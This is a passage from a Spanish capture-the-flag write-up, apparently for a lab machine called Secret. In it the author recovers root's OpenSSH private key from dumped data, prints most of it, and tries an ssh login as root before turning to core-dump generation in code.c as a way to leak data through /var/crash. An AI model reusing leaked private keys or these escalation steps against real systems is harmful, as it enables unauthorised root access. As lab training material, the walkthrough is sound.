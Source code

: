 Estupendo , haciendole un head he visto utf8 por lo que puede que haya algo dentro y ahora lo que veo es una clave ssh o varias...

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
        b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
        NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
        KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
        7wNrxitkPrmuViWPGQCotBDCZmn4WNbNT0kcsfA+b4xB+am6tyDthqjfPJngROf0Z26lA1
        xw0OmoCdyhvQ3azlbkZZ7EWeTtQ/EYcdYofa8/mbQ+amOb9YaqWGiBai69w0Hzf06lB8cx
        8G+Kb[spoiler]]xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
        fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
        -----END OPENSSH PRIVATE KEY-----
```

Abajo veo otra pero creo que es la misma

```bash
3,1,0,1,38,0,1633544227,"-----BEGIN OPENSSH PRIVATE KEY-----","b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn","NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3","KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+","7wNrxitkPrmuViWPGQCotBDCZmn4WNbNT0kcsfA+b4xB+am6tyDthqjfPJngROf0Z26lA1","xw0OmoCdyhvQ3azlbkZZ7EWeTtQ/EYcdYof
...
...

```

La idea ahora es conectarnos por ssh. ¿Cómo lo hacemos teniendo la clave privada? Guardamos la clave en un archivo , por ejemplo id_rsa.pub en el directorio del usuario y luego:

```bash
ssh -i /home/dasith/id_rsa.pub root@10.10.11.120
```

Lamentablemente aunque parece que si funciona, parece que hay alguien conectado o por lo menos el proceso está abierto y nos aparece
```bash
dasith@secret:~$ ssh -i /home/dasith/id_rsa.pub root@10.10.11.120
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '/home/dasith/id_rsa.pub' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "/home/dasith/id_rsa.pub": bad permissions
```
Hay que buscar una forma de cerrar el proceso. Mirando el code.c aparece un comentario  // Enable coredump generation. Esa es una buena pista para intentar generar un bloqueo del proceso. Cuando un programa se bloquea, el sistema almacena los archivos de volcado de bloqueo en /var/crash

![](2022-06-29-11-35-19.png)
